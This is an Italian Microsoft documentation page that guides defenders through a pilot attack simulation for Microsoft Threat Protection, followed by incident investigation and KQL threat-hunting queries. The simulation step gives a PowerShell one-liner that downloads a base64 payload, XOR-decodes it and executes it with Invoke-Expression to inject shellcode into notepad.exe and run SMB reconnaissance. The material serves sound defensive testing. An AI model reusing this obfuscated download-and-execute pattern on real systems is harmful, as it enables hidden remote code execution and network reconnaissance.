

# <a name="run-your-microsoft-threat-protection-attack-simulations"></a>Eseguire le simulazioni di attacco di Microsoft Threat Protection  

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


**Si applica a:**
- Microsoft Threat Protection
<br>
<table border="0" width="100%" align="center">
  <tr style="text-align:center;">
    <td align="center" style="width:25%; border:0;" >
      <a href= "https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-plan"> 
        
      <br/>Pianificare </a><br>
    </td>
    <td align="center">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/prepare-mtpeval">
        
      <br/>Preparare </a><br>
    </td>
    <td align="center"bgcolor="#d5f5e3">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-simulate">
        
      <br/>Simula attacco </a><br>
    </td>
    <td align="center">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-close">
        
      <br/>Chiudi e riassumi </a><br>
    </td>
  </tr>
  <tr>
    <td style="width:25%; border:0;">
   
    </td>
    <td valign="top" style="width:25%; border:0;">
    
</td>
    <td valign="top" style="width:25%; border:0;">

</td>    
    <td valign="top" style="width:25%; border:0;">

</td>
  </tr>
</table>

Si è attualmente in fase di simulazione di attacco.

Dopo la preparazione dell'ambiente pilota, è necessario verificare la gestione degli incidenti di Microsoft Threat Protection e le funzionalità di analisi e correzione automatizzate. Vi aiuteremo a simulare un attacco sofisticato che sfrutta le tecniche avanzate per nascondere il rilevamento. L'attacco enumera le sessioni SMB (Server Message Block) aperte sui controller di dominio e recupera gli indirizzi IP recenti dei dispositivi degli utenti. Questa categoria di attacchi di solito non include i file rilasciati sul dispositivo della vittima, che si verificano solo in memoria. Essi "vivono al di fuori della terra" utilizzando gli strumenti esistenti di sistema e di amministrazione e iniettare il proprio codice nei processi di sistema per nasconderne l'esecuzione, consentendo loro di eludere il rilevamento e la persistenza nel dispositivo.

In questa simulazione, lo scenario di esempio inizia con uno script di PowerShell. Un utente potrebbe essere indotto a eseguire uno script. Oppure lo script può essere eseguito da una connessione remota a un altro computer da un dispositivo precedentemente infetto, ovvero l'utente malintenzionato che tenta di spostarsi lateralmente nella rete. Il rilevamento di questi script può essere difficile perché gli amministratori spesso eseguono anche gli script in remoto per eseguire diverse attività amministrative.


Durante la simulazione, l'attacco inietta shellcode in un processo apparentemente innocente. In questo scenario, si utilizzerà notepad.exe. È stato scelto questo processo per la simulazione, ma gli aggressori avranno più probabilità di essere indirizzati a un processo di sistema a esecuzione prolungata, ad esempio svchost.exe. Il shellcode, quindi, continua a contattare il server di comando e controllo (C2) del pirata informatico per ricevere istruzioni su come procedere. Inoltre, lo script tenta di eseguire query di ricognizione sul controller di dominio (DC). Ciò consente a un utente malintenzionato di ottenere informazioni sulle informazioni recenti sull'accesso degli utenti. Una volta che gli aggressori dispongono di queste informazioni, possono spostarsi lateralmente nella rete per accedere a un account sensibile specifico.

>[!IMPORTANT]
>Per ottenere risultati ottimali, seguire le istruzioni di simulazione dell'attacco il più fedelmente possibile.


## <a name="simulation-environment-requirements"></a>Requisiti dell'ambiente di simulazione

Poiché è già stato configurato l'ambiente pilota durante la fase di preparazione, verificare di disporre di due dispositivi per questo scenario: un dispositivo di test e un controller di dominio.

1.  Verificare che il tenant abbia [abilitato Microsoft Threat Microsoft Threat Protection](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).
2.  Verificare la configurazione del controller di dominio di testing:
    - Il dispositivo viene eseguito con Windows Server 2008 R2 o versione successiva.
    - Il controller di dominio di testing per [Azure Advanced Threat Protection](https://docs.microsoft.com/azure/security-center/security-center-wdatp) e abilitare la [gestione remota](https://docs.microsoft.com/windows-server/administration/server-manager/configure-remote-management-in-server-manager).    
    - Verificare che [Azure ATP e Microsoft cloud app Security Integration](https://docs.microsoft.com/cloud-app-security/aatp-integration) siano stati abilitati.
    - Un utente di test viene creato nel dominio: non sono necessarie autorizzazioni di amministratore.

3.  Verificare la configurazione del dispositivo di test:
    <br>
    a.  Il dispositivo viene eseguito con Windows 10 versione 1903 o versione successiva.
    <br>
    b.  Il dispositivo di testing viene aggiunto al dominio di testing.
    <br>
    c.  [Attiva Windows Defender Antivirus](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features). Se si verificano problemi nell'attivazione di Windows Defender Antivirus, vedere questo [argomento relativo alla risoluzione dei problemi](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).
    <br>
    d.  Verificare che il dispositivo di test sia [onboarded to Microsoft Defender Advanced Threat Protection (MDATP)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

Se si utilizza un tenant esistente e si implementano i gruppi di dispositivi, creare un gruppo di dispositivi dedicato per il dispositivo di test e spingerlo al livello principale nella configurazione UX.


## <a name="run-the-simulation"></a>Eseguire la simulazione

Per eseguire la simulazione dello scenario di attacco:

1.  Accedere al dispositivo di test con l'account utente di test.

2.  Aprire una finestra di Windows PowerShell nel dispositivo di test.

3.  Copiare lo script di simulazione seguente:
```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
= [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
-UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
$decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
$i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```
>[!NOTE]
>Se si apre il documento in un Web browser, è possibile che si verifichino problemi nella copia del testo completo senza perdere alcuni caratteri o nell'introduzione di interruzioni di riga aggiuntive. Scaricare il documento e aprirlo su Adobe Reader.

4. Al prompt dei comandi incollare ed eseguire lo script copiato.

>[!NOTE]
>Se è in esecuzione PowerShell tramite Remote Desktop Protocol (RDP), utilizzare il comando Testo Appunti di tipo nel client RDP perché il metodo di scelta rapida **CTRL-V** o con il pulsante destro del mouse su Incolla potrebbe non funzionare.  Le versioni recenti di PowerShell, a volte, non accetteranno anche questo metodo, potrebbe essere necessario copiare prima la memoria nel blocco note, copiarla nella macchina virtuale e quindi incollarla in PowerShell.

Dopo qualche secondo, <i>notepad.exe</i> si aprirà. Verrà inserito un codice di attacco simulato in notepad.exe. Mantenere aperta l'istanza di blocco note generata automaticamente per verificare lo scenario completo.

Il codice di attacco simulato tenterà di comunicare con un indirizzo IP esterno (simulando il server C2) e quindi tenterà di ricognizione sul controller di dominio tramite SMB.

Quando lo script viene completato, verrà visualizzato un messaggio nella console di PowerShell.

```
ran NetSessionEnum against [DC Name] with return code result 0      
```

Per visualizzare la funzionalità per gli incidenti automatici e la risposta in azione, mantenere aperto il processo di notepad.exe. Verrà visualizzato arresto anomalo automatico e risposta arrestare il processo del blocco note.


## <a name="investigate-an-incident"></a>Analizzare un incidente

>[!NOTE]
>Prima di illustrare questa simulazione, guardare il video seguente per vedere in che modo la gestione degli incidenti aiuta a mettere insieme gli avvisi correlati nell'ambito del processo di analisi, in cui è possibile trovarlo nel portale e come può essere di aiuto nelle operazioni di sicurezza:

>[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

Passando al punto di vista dell'analista SOC, è ora possibile iniziare a studiare l'attacco nel portale del Centro sicurezza Microsoft 365. 

1.  Aprire la coda degli incidenti del [portale Microsoft 365 Security Center](https://security.microsoft.com/incidents) da qualsiasi dispositivo.

2.  Passare a **operazioni** non consentite dal menu. 

    

3.  Il nuovo evento Incident per l'attacco simulato verrà visualizzato nella coda degli eventi non consentiti.
 
    


### <a name="investigate-the-attack-as-a-single-incident"></a>Esaminare l'attacco come un singolo evento Incident

Microsoft Threat Protection correla l'analisi e aggrega tutti gli avvisi e le indagini correlati provenienti da prodotti diversi in un'unica entità di incidenti. In questo modo, Microsoft Threat Protection Visualizza una storia d'attacco più ampia, consentendo all'analista SOC di comprendere e rispondere a minacce complesse.

Gli avvisi generati durante questa simulazione sono associati alla stessa minaccia e, di conseguenza, vengono aggregati automaticamente come un singolo evento Incident.

Per visualizzare l'evento Incident:

1.  Passare alla coda degli **eventi** non consentiti.
 
    

2.  Seleziona l'elemento più recente facendo clic sul cerchio che si trova a sinistra del nome dell'evento. Nel pannello laterale vengono visualizzate informazioni aggiuntive sull'evento Incident, inclusi tutti gli avvisi correlati. Ogni evento Incident ha un nome univoco che lo descrive in base agli attributi degli avvisi inclusi.

    

    Gli avvisi visualizzati nel dashboard possono essere filtrati in base alle risorse del servizio: Azure ATP, Microsoft cloud app Security, Microsoft Defender ATP, Microsoft Threat Protection e Office ATP.  

3.  Selezionare **Apri pagina Incident** per ottenere ulteriori informazioni sull'incidente.

    Nella pagina **Incident** , è possibile visualizzare tutti gli avvisi e le informazioni relative all'evento Incident. Sono incluse le entità e gli asset coinvolti nell'avviso, l'origine di rilevamento degli avvisi (Azure ATP, EDR) e il motivo per cui sono stati collegati tra loro. La revisione dell'elenco degli avvisi per gli incidenti Mostra la progressione dell'attacco. Da questa visualizzazione, è possibile visualizzare e esaminare i singoli avvisi.

    È inoltre possibile fare clic su **Gestisci evento anomalo** dal menu a destra, per contrassegnare l'evento, assegnarlo a te stesso e aggiungere commenti.

    

    


### <a name="review-generated-alerts"></a>Esaminare gli avvisi generati 

Si osservino alcuni degli avvisi generati durante l'attacco simulato.

>[!NOTE]
>Verranno illustrati solo alcuni degli avvisi generati durante l'attacco simulato. A seconda della versione di Windows e dei prodotti Microsoft Threat Protection in esecuzione nel dispositivo di test, è possibile che vengano visualizzati altri avvisi in un ordine leggermente diverso.

 


**Avviso: l'iniezione di processo sospetta osservata (origine: Microsoft Defender ATP EDR)**

Gli utenti malintenzionati avanzati utilizzano metodi sofisticati e furtivi per mantenere la memoria e nascondere gli strumenti di rilevamento. Una tecnica comune è quella di operare all'interno di un processo di sistema attendibile piuttosto che di un file eseguibile dannoso, rendendo difficile individuare gli strumenti di rilevamento e le operazioni di sicurezza per identificare il codice dannoso.

Per consentire agli analisti SOC di interferire con questi attacchi avanzati, i sensori di memoria profondi in Microsoft Defender ATP offrono al servizio cloud una visibilità senza precedenti in una vasta gamma di tecniche di iniezione di codice tra processi. Nella figura seguente viene illustrato il modo in cui Microsoft Defender ATP ha rilevato e avvisato il tentativo di inserire codice per <i>notepad.exe</i>.

 


**Avviso: comportamento imprevisto rilevato da un processo eseguito senza argomenti della riga di comando (origine: Microsoft Defender ATP EDR)**

I rilevamenti ATP Microsoft Defender spesso si rivolgono all'attributo più comune di una tecnica di attacco. Questo garantisce la durabilità e aumenta la barra per gli aggressori per passare alla tattica più recente.

Vengono impiegati algoritmi di apprendimento su larga scala per stabilire il comportamento normale dei processi comuni all'interno di un'organizzazione e di tutto il mondo e guardare quando questi processi presentano comportamenti anomali. Questi comportamenti anomali indicano spesso che il codice estraneo è stato introdotto ed è in esecuzione in un processo altrimenti attendibile.

Per questo scenario, il processo <i>notepad.exe</i> sta esibendo un comportamento anormale, che implica la comunicazione con una posizione esterna. Questo risultato è indipendente dal metodo specifico utilizzato per introdurre ed eseguire il codice dannoso.

>[!NOTE]
>Poiché questo avviso si basa su modelli di apprendimento automatico che richiedono un'ulteriore elaborazione del backend, potrebbe essere necessario molto tempo prima che venga visualizzato questo avviso nel portale.

Si noti che i dettagli degli avvisi includono l'indirizzo IP esterno, ovvero un indicatore che è possibile utilizzare come pivot per espandere l'indagine.

Fare clic sull'indirizzo IP nell'albero del processo di avviso per visualizzare la pagina dei dettagli dell'indirizzo IP.

 

Nella figura seguente viene visualizzata la pagina dettagli indirizzo IP selezionato (facendo clic su indirizzo IP nell'albero del processo di avviso).


**Avviso: User and IP address Reconnaissance (SMB) (origine: Azure ATP)**

L'enumerazione tramite il protocollo SMB (Server Message Block) consente agli aggressori di ottenere informazioni di accesso degli utenti recenti che consentono loro di spostarsi lateralmente tramite la rete per accedere a un account sensibile specifico.

In questo rilevamento viene attivato un avviso quando l'enumerazione della sessione SMB viene eseguita in base a un controller di dominio.

 


### <a name="review-the-device-timeline-microsoft-defender-atp"></a>Esaminare la sequenza temporale del dispositivo [Microsoft Defender ATP]
Dopo aver esplorato i vari avvisi in questo incidente, tornare alla pagina Incident che è stata esaminata in precedenza. Fare clic sulla scheda **dispositivi** nella pagina Incident per esaminare i dispositivi coinvolti in questo incidente, come riportato da Microsoft Defender ATP e Azure ATP.

Fare clic sul nome del dispositivo in cui è stato eseguito l'attacco, per aprire la pagina entità per il dispositivo specifico. In tale pagina, è possibile visualizzare gli avvisi che sono stati attivati e gli eventi correlati.

Fare clic sulla scheda **sequenza temporale** per aprire la sequenza temporale del dispositivo e visualizzare tutti gli eventi e i comportamenti osservati nel dispositivo in ordine cronologico, intervallati dagli avvisi generati.

 

L'espansione di alcuni dei comportamenti più interessanti fornisce informazioni utili, ad esempio gli alberi di processo.

Ad esempio, scorrere verso il basso fino a quando non viene trovato l'avviso di **processo sospettoso**dell'evento Alert. Fare clic sull'evento **powershell.exe iniettato per notepad.exe processo** al di sotto di esso, per visualizzare l'albero dei processi completo per questo comportamento nel grafico **entità evento** nel riquadro laterale. Utilizzare la barra di ricerca per filtrare se necessario.


### <a name="review-the-user-information-microsoft-cloud-app-security"></a>Leggere le informazioni sull'utente [Microsoft cloud app Security]

Nella pagina incidente fare clic sulla scheda **utenti** per visualizzare l'elenco di utenti coinvolti nell'attacco. La tabella contiene informazioni aggiuntive su ogni utente, incluso il Punteggio di **priorità** per l'analisi di ogni utente.

Fare clic sul nome utente per aprire la pagina del profilo dell'utente in cui è possibile eseguire ulteriori indagini. [Per ulteriori informazioni, vedere Analisi degli utenti rischiosi](https://docs.microsoft.com/cloud-app-security/tutorial-ueba#identify).
<br>


## <a name="automated-investigation-and-remediation"></a>Indagine e correzione automatizzate
>[!NOTE]
>Prima di illustrare questa simulazione, guardare il video seguente per acquisire familiarità con l'autoguarigione automatica, dove trovarla nel portale e come può essere utile nelle operazioni di sicurezza:

>[!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

Tornare all'incidente nel portale del Centro sicurezza Microsoft 365. La scheda **indagini** nella pagina **incidenti** Visualizza le indagini automatizzate che sono state attivate da Azure ATP e Microsoft Defender ATP. Nella schermata seguente viene visualizzata solo l'analisi automatizzata attivata da Microsoft Defender ATP. Per impostazione predefinita, Microsoft Defender ATP consente di correggere automaticamente gli elementi presenti nella coda che richiedono la correzione.


Fare clic sull'avviso che ha attivato un'indagine per aprire la pagina dei **Dettagli dell'indagine** . Verranno visualizzati gli elementi seguenti:
- Avvisi che hanno attivato l'analisi automatizzata.
- Utenti e dispositivi interessati. Se vengono trovati indicatori su altri dispositivi, verranno elencati anche questi dispositivi aggiuntivi.
- Elenco di elementi Evidence. Entità individuate e analizzate, ad esempio file, processi, servizi, driver e indirizzi di rete. Tali entità vengono analizzate per eventuali relazioni all'avviso e valutate come benigne o dannose.
- Minacce trovate. Minacce note rilevate durante l'indagine.

>[!NOTE]
>In base alla tempistica, è possibile che l'analisi automatizzata sia ancora in esecuzione. Attendere alcuni minuti prima che il processo venga raccolto e analizzato e riveda i risultati. Aggiornare la pagina dei **Dettagli dell'indagine** per ottenere i risultati più recenti.


Durante l'analisi automatizzata, Microsoft Defender ATP ha identificato il processo di notepad.exe, che è stato inserito come uno degli elementi che richiedono la correzione. Microsoft Defender ATP interrompe automaticamente l'iniezione dei processi sospetti nell'ambito della correzione automatica. 

È possibile vedere <i>notepad.exe</i> scomparire dall'elenco dei processi in esecuzione nel dispositivo di test.

## <a name="resolve-the-incident"></a>Risoluzione dell'evento non consentita

Dopo aver completato l'analisi e aver confermato di essere corretti, chiudere l'evento Incident.

Fare clic su **Gestisci eventi imprevisti**. Impostare lo stato su **Risolvi evento** e selezionare la classificazione pertinente.

Dopo che l'operazione è stata risolta, verranno chiusi tutti gli avvisi associati in Microsoft 365 Security Center e nei portali correlati.

 

<br>
Questo avvolge la simulazione di attacco per la gestione degli incidenti e gli scenari di analisi e correzione automatizzati. La simulazione successiva consentirà di eseguire la ricerca di minacce proattive per i file potenzialmente dannosi. 

## <a name="advanced-hunting-scenario"></a>Scenario di caccia avanzato

>[!NOTE]
>Prima di illustrare la simulazione, guardare il video seguente per comprendere i concetti di caccia avanzati, vedere dove è possibile trovarlo nel portale e sapere come può essere di aiuto nelle operazioni di sicurezza:

>[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a>Requisiti per l'ambiente di caccia
Per questo scenario è necessaria una singola cassetta postale interna e un dispositivo. Sarà inoltre necessario un account di posta elettronica esterno per inviare il messaggio di prova.

1.  Verificare che il tenant abbia [abilitato Microsoft Threat Protection](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).
2.  Identificare una cassetta postale di destinazione da utilizzare per la ricezione della posta elettronica.
    a.  Questa cassetta postale deve essere monitorata da Office 365 ATP b.  Il dispositivo del requisito 3 deve accedere a questa cassetta postale
3.  Configurazione di un dispositivo di test: a.  Assicurarsi di utilizzare Windows 10 versione 1903 o versione successiva.
    b.  Aggiungere il dispositivo di test al dominio di testing.
    c.  [Attiva Windows Defender Antivirus](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features). Se si verificano problemi nell'attivazione di Windows Defender Antivirus, vedere [questo argomento relativo alla risoluzione dei problemi](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).
    d.  [Onboard to Microsoft Defender Advanced Threat Protection (MDATP)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

### <a name="run-the-simulation"></a>Eseguire la simulazione
1.  Da un account di posta elettronica esterno, inviare un messaggio di posta elettronica alla cassetta postale identificata nel passaggio 2 della sezione requisiti per l'ambiente di testing. Includere un allegato che verrà consentito tramite tutti i criteri di filtro della posta elettronica esistenti.  Questo file non deve necessariamente essere dannoso o eseguibile. I tipi di file suggeriti sono <i>. pdf</i>, <i>. exe</i> (se consentito) o documento di Office, ad esempio un file di Word.
2.  Aprire il messaggio di posta elettronica inviato dal dispositivo configurato come definito nel passaggio 3 della sezione requisiti per l'ambiente di testing. Aprire l'allegato o salvare il file nel dispositivo.


**Andare a caccia**
1.  Aprire il portale di security.microsoft.com.
2.  Passare alla **caccia > caccia avanzata**.

     

3.  Creare una query che inizia tramite la raccolta di eventi di posta elettronica.
    a.  Nel riquadro query selezionare nuovo.
    b.  Fare doppio clic sulla tabella EmailEvents dallo schema.

```
EmailEvents 
```                                        

   c.   Modificare la tempistica nelle ultime 24 ore. Presupponendo che l'indirizzo di posta elettronica inviato all'esecuzione della simulazione precedente fosse nelle ultime 24 ore, altrimenti modificare la tempistica.
    


   d.   Eseguire la query.  Potrebbe essere necessario un numero elevato di risultati in base all'ambiente del pilota.  

>[!NOTE]
>Vedere il passaggio successivo per filtrare le opzioni per limitare il ritorno dei dati.

    

>[!NOTE]
>Caccia avanzata consente di visualizzare i risultati delle query come dati tabulari. È inoltre possibile scegliere di visualizzare i dati in altri tipi di formato, ad esempio grafici.    

   e.   Esaminare i risultati e vedere se è possibile identificare l'indirizzo di posta elettronica che è stato aperto.  Potrebbe essere necessario fino a 2 ore affinché il messaggio venga visualizzato nella ricerca avanzata. Se l'ambiente di posta elettronica è di grandi dimensioni e sono presenti numerosi risultati, è consigliabile utilizzare l' **opzione Mostra filtri** per trovare il messaggio. 

   Nell'esempio, il messaggio di posta elettronica è stato inviato da un account Yahoo. Fare clic sull' **+** icona accanto a **yahoo.com** nella sezione SenderFromDomain e quindi fare clic su **applica** per aggiungere il dominio selezionato alla query.  È necessario utilizzare il dominio o l'account di posta elettronica utilizzato per inviare il messaggio di prova nel passaggio 1 di eseguire la simulazione per filtrare i risultati.  Eseguire di nuovo la query per ottenere un set di risultati più piccolo per verificare che venga visualizzato il messaggio dalla simulazione.
   
    


```
EmailEvents 
| where SenderMailFromDomain == "yahoo.com"
```

   f.   Fare clic sulle righe risultanti dalla query in modo che sia possibile ispezionare il record.
    


4.  Dopo aver verificato che è possibile visualizzare il messaggio di posta elettronica, aggiungere un filtro per gli allegati. Concentrarsi su tutti i messaggi di posta elettronica con allegati nell'ambiente. Per questo scenario, concentrarsi sui messaggi di posta elettronica in ingresso, non su quelli inviati dall'ambiente. Rimuovere tutti i filtri aggiunti per individuare il messaggio e aggiungere "| dove **AttachmentCount > 0** e **EmailDirection**"in  ==  **ingresso"** "

La query seguente mostrerà il risultato con un elenco più breve rispetto alla query iniziale per tutti gli eventi di posta elettronica:

```
EmailEvents 
| where AttachmentCount > 0 and EmailDirection == "Inbound"

```

5.  Successivamente, includere le informazioni sull'allegato, ad esempio: nome file, hash, nel set di risultati. A tale scopo, partecipare alla tabella **EmailAttachmentInfo** . I campi comuni da utilizzare per l'aggiunta, in questo caso sono **NetworkMessageId** e **RecipientObjectId**.

La query seguente include anche una riga aggiuntiva "| **Project-Rename EmailTimestamp = timestamp**"che consentirà di identificare il timestamp relativo alla posta elettronica rispetto ai timestamp relativi alle azioni dei file che verranno aggiunte nel prossimo passaggio.

```
EmailEvents 
| where AttachmentCount > 0 and EmailDirection == "Inbound"
| project-rename EmailTimestamp=Timestamp 
| join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
```

6.  Successivamente, utilizzare il valore **SHA256** dalla tabella **EmailAttachmentInfo** per trovare **DeviceFileEvents** (operazioni sul file che sono successe nell'endpoint) per tale hash.  Il campo comune qui sarà l'hash SHA256 per l'allegato.

La tabella risultante include ora informazioni dettagliate dall'endpoint (Microsoft Defender ATP), ad esempio il nome del dispositivo, quali azioni sono state eseguite (in questo caso, filtrate per includere solo gli eventi filecreated) e in cui è stato archiviato il file. Verrà incluso anche il nome dell'account associato al processo.

```
EmailEvents 
| where AttachmentCount > 0 and EmailDirection == "Inbound"
| project-rename EmailTimestamp=Timestamp 
| join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId 
| join DeviceFileEvents on SHA256 
| where ActionType == "FileCreated"
```

Ora è stata creata una query che identificherà tutti i messaggi di posta elettronica in ingresso in cui l'utente ha aperto o salvato l'allegato. È inoltre possibile affinare la query per filtrare i domini mittente, le dimensioni dei file, i tipi di file e così via.

7.  Le funzioni sono un tipo speciale di join che consente di tirare più dati TI su un file come la sua prevalenza, il firmatario e le informazioni sull'emittente, ecc.  Per ottenere ulteriori informazioni sul file, utilizzare l'arricchimento delle funzioni **fileprofile ()** :

```
EmailEvents 
| where AttachmentCount > 0 and EmailDirection == "Inbound"
| project-rename EmailTimestamp=Timestamp 
| join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
| join DeviceFileEvents on SHA256 
| where ActionType == "FileCreated"
| distinct SHA1
| invoke FileProfile()
```


**Creare un rilevamento**

Dopo aver creato una query in cui vengono identificate le informazioni che si desidera **vengano segnalate** in futuro, è possibile creare un rilevamento personalizzato dalla query. 

I rilevamenti personalizzati eseguiranno la query in base alla frequenza impostata e i risultati delle query creeranno avvisi di sicurezza, in base alle risorse interessate selezionate. Gli avvisi verranno correlati agli eventi non consentiti e potranno essere valutati come qualsiasi altro avviso di sicurezza generato da uno dei prodotti.

1.  Nella pagina query rimuovere le righe 7 e 8 aggiunte nel passaggio 7 delle istruzioni go Hunting e fare clic su **Crea regola di rilevamento**. 
    
     

>[!NOTE]
>Se si fa clic su **Crea regola di rilevamento** ed è presente un errore di sintassi nella query, la regola di rilevamento non verrà salvata. Controllare la query per verificare che non siano presenti errori. 


2.  Inserire i campi obbligatori con le informazioni che consentiranno al team di sicurezza di comprendere l'avviso, il motivo per cui è stato generato e le azioni da intraprendere. 

    

Assicurarsi di compilare i campi con chiarezza per contribuire a fornire all'utente successivo una decisione informata su questo avviso per la regola di rilevamento 

3.  Selezionare quali entità sono interessate da questo avviso. In questo caso, selezionare **dispositivo** e **cassetta postale**.

    
 

4.  Determinare quali azioni devono essere effettuate se viene attivato l'avviso. In questo caso, eseguire un'analisi antivirus, anche se possono essere eseguite altre azioni. 

     

5.  Selezionare l'ambito per la regola di avviso. Poiché questa query coinvolge i dispositivi, i gruppi di dispositivi sono rilevanti in questo rilevamento personalizzato in base al contesto ATP Microsoft Defender.  Quando si crea un rilevamento personalizzato che non include i dispositivi come entità con impatto, l'ambito non è valido.  

     

Per questo pilota, è possibile che si desideri limitare questa regola a un sottoinsieme di dispositivi di testing nell'ambiente di produzione.

6.  Selezionare **Crea**. Selezionare quindi le **regole di rilevamento personalizzate** dal riquadro di spostamento.
 
     

     

Da questa pagina, è possibile selezionare la regola di rilevamento che aprirà una pagina dei dettagli. 

 

### <a name="additional-advanced-hunting-walk-through-exercises"></a>Ulteriori esercizi di Walking-through di caccia

Per ulteriori informazioni sulla ricerca avanzata, i webcast seguenti illustrano le funzionalità di ricerca avanzata all'interno di Microsoft Threat Protection (MTP) per creare query tra pilastri, pivot alle entità e creazione di rilevamenti personalizzati e azioni di correzione.

>[!NOTE]
>Prepararsi con il proprio account GitHub per eseguire le query di caccia nell'ambiente di laboratorio di testing pilota.  

| **Titolo** | **Descrizione** | **Scaricare MP4** | **Guarda su YouTube** | **File CSL da utilizzare** |
|:-----|:-----|:-----|:-----|:-----|
| Episode 1: Nozioni fondamentali su KQL | Verranno descritte le nozioni di base delle funzionalità di ricerca avanzata in Microsoft Threat Protection. Informazioni sui dati di caccia avanzati disponibili e sulla sintassi e sugli operatori di base di KQL. | [ MP4](https://aka.ms/MTP15JUL20_MP4) | [YouTube](https://youtu.be/0D9TkGjeJwM) | [Episode 1: file CSL in git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl) |
| Episodio 2: join | Continueremo a conoscere i dati in Advanced Hunting e come unire tabelle insieme. Informazioni sui join interni, esterni, univoci e semitrasparenti e sulle sfumature del join kusto innerunique predefinito. | [MP4](https://aka.ms/MTP22JUL20_MP4) | [YouTube](https://youtu.be/LMrO6K5TWOU) | [Episodio 2: file CSL in git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl) |
| Episodio 3: ricapitolazione, pivoting e visualizzazione dei dati|Ora che è possibile filtrare, modificare e unire i dati, è il momento di avviare il riepilogo, la quantificazione, il pivoting e la visualizzazione. In questo episodio, verrà descritto l'operatore di riepilogo e alcuni dei calcoli che è possibile eseguire durante l'immersione in tabelle aggiuntive nello schema di caccia avanzato. I set di DataSet vengono trasformati in grafici che consentono di migliorare l'analisi. | [MP4](https://aka.ms/MTP29JUL20_MP4) | [YouTube](https://youtu.be/UKnk9U1NH6Y) | [Episodio 3: file CSL in git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl) |
| Episodio 4: Let ' s Hunt! Applicazione di KQL alla verifica degli incidenti|Tempo per monitorare l'attività di un utente malintenzionato. In questo episodio, si utilizzerà la migliore comprensione di KQL e Advanced Hunting in Microsoft Threat Protection per individuare un attacco. Per ulteriori informazioni, vedere i suggerimenti e gli accorgimenti utilizzati nel campo per monitorare le attività degli utenti malintenzionati, inclusi i ABC di Cybersecurity e come applicarli alla risposta agli incidenti. | [MP4](https://aka.ms/MTP5AUG20_MP4) | [YouTube](https://youtu.be/2EUxOc_LNd8) | [Episodio 4: file CSL in git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl) |

## <a name="next-step"></a>Passaggio successivo
| <br>[Fase di chiusura e riepilogo](mtp-pilot-close.md) | Analizzare il risultato pilota di Microsoft Threat Protection, presentarlo alle parti interessate e eseguire il passaggio successivo.
|:-----|:-----|

